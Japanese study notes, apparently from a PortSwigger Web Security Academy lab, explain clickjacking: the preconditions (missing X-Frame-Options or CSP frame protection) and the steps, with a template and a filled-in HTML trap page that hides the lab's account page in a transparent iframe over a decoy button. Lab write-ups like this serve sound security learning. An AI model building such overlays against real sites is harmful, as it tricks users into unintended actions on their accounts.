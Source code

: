## 脆弱性の説明
- 攻撃者が自分自身で作ったwebサイトにユーザを誘導し、透明化してある正規のサイトの下に攻撃者が作ったボタンを配置する。そうすることで、ユーザはそのボタンを押すが、透明化してある正規のサイトのボタンが押されることによって、ユーザが意図しないリクエストを行ってしまう。

## 攻撃の条件
- 攻撃者が実行させようと使用している処理にログイン後のセッションIDや、CSRFトークンが必要な場合はユーザが事前にそれらの値を持っていることが前提となる。
- サーバ側の実装で別ドメインからの繊維が可能であること。具体的には以下のレスポンスヘッダーが実装されてない場合、悪用できる可能性がある。
```markdown
1. レスポンスヘッダにX-Frame-Optionsヘッダが存在すること

2. レスポンスヘッダまたはレスポンスボディにContent-Security-Policyヘッダ相当の要素が存在すること
```

## 手順 ※一度削除すると20分で何もできなくなるので改めて記載する。
1. 被害者操作:ログインをする。
![[Pasted image 20251002234913.png]]
2. 罠サイトの構築
```html
<style>
    iframe { /** ←これが実際のページ **/
        position:relative;
        width:$width_value; /** 横幅を設定 **/
        height: $height_value; /** 立幅を設定 **/
        opacity: $opacity; /** 明度の設定。ページ作成時は0.1で実際に公開するときは0.0001にする。 **/
        z-index: 2;
    }
    div { /** ←自作するボタン(最背面に設置を行う) **/
        position:absolute;
        top:$top_value; /** ←高さ調整 **/
        left:$side_value;/** ←横幅調整 **/
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"> /** ターゲットのサイト **/
</iframe>
```
- ↓実際の記入例
```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0ada00ed03368e89800b0395003e008a.web-security-academy.net/my-account"></iframe>
```

3. 調整時の実際の画面は以下の様になる。
![[Pasted image 20251003174022.png]]
![[Pasted image 20251003174125.png]]